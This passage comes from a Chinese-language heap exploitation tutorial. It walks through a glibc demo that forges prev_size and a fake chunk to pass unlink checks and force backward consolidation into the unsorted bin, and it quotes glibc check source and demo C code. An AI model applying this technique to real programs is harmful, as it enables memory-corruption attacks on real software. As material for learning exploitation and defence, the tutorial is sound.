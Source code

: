 把 `chunk c` 的 size 域的 `prev_inuse` 位改为 0。

[![](assets/1702521085-6c917bbd12bfd7ab41bec42c388e8f7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230848-3152dd0e-9380-1.png)

```plain
uint64_t* c_size_ptr = (uint64_t*)(c - 8);
    b[real_b_size] = 0;
```

由于 unlink 存在保护，所以需要计算 `fake_freechunk` 的大小

检查机制的源码如下：

```plain
// 由于 P 已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致 (size 检查)
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0)) \
malloc_printerr ("corrupted size vs. prev_size");
// 检查 fd 和 bk 指针 (双向链表完整性检查)
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) \
malloc_printerr (check_action, "corrupted double-linked list", P, AV);
```

demo 中的计算如下

```plain
printf("\nWe write a fake prev_size to the last %lu bytes of 'b' so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((c - sizeof(size_t) * 2) - (uint8_t*) a);
    printf("Our fake prev_size will be %p - %p = %#lx\n", c - sizeof(size_t) * 2, a, fake_size);
    *(size_t*) &b[real_b_size-sizeof(size_t)] = fake_size;

    // Change the fake chunk's size to reflect c's new prev_size
    printf("\nMake sure that our fake chunk's size is equal to c's new prev_size.\n");
    a[1] = fake_size;

    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", a[1]);
```

当然，计算出的结果还是之前填入的 0x60（wu

由于 unlink 需要在 `unsorted bin` 中进行所以需要先填满 `tcache bin` (2.23 可以不用)

随后 free c

此时便触发了向后合并， `fake_chunk` 被放入了 `unsorted bin` 中
